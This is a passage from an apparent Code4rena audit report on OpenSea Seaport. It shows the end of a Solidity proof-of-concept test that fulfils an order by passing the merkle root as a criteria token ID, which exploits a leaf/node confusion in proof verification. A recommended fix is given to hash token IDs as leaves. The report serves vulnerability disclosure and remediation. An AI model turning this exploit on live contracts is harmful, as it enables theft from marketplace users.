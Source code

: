             delete offerItems;
            delete considerationItems;
    
            /*************** ATTACK STARTS HERE ***************/
            AdvancedOrder memory advancedOrder = AdvancedOrder(
                orderParameters,
                1, /* numerator */
                1, /* denominator */
                signature,
                ""
            );
    
            // resolve the merkle root token ID itself
            CriteriaResolver[] memory cr = new CriteriaResolver[](1);
            bytes32[] memory proof = new bytes32[](0);
            cr[0] = CriteriaResolver(
                  0, // uint256 orderIndex;
                  Side.CONSIDERATION, // Side side;
                  0, // uint256 index; (item)
                  uint256(merkleRoot), // uint256 identifier;
                  proof // bytes32[] criteriaProof;
            );
    
            uint256 profit = token1.balanceOf(address(this));
            context.consideration.fulfillAdvancedOrder{
                value: context.paymentAmount
            }(advancedOrder, cr, bytes32(0));
            profit = token1.balanceOf(address(this)) - profit;
    
            // @audit could fulfill order without owning NFT 1 or 2
            assertEq(profit, context.paymentAmount);
        }
    }

### [](#recommended-mitigation-steps-2)Recommended Mitigation Steps

Usually, this is fixed by using a type-byte that indicates if one is computing the hash for a _leaf_ or not.  
An elegant fix here is to simply [use hashes of the tokenIds](https://github.com/code-423n4/2022-05-opensea-seaport/blob/4140473b1f85d0df602548ad260b1739ddd734a5/contracts/lib/CriteriaResolution.sol#L250) as the leaves - instead of the tokenIds themselves. (Note that this is the natural way to compute merkle trees if the data size is not already the hash size.)  
Then compute the leaf hash in the contract from the provided tokenId:

    function _verifyProof(
        uint256 leaf,
        uint256 root,
        bytes32[] memory proof
    ) internal pure {
        bool isValid;
    
    -    assembly {
    -        let computedHash := leaf
    +  bytes32 computedHash = keccak256(abi.encodePacked(leaf))
      ...
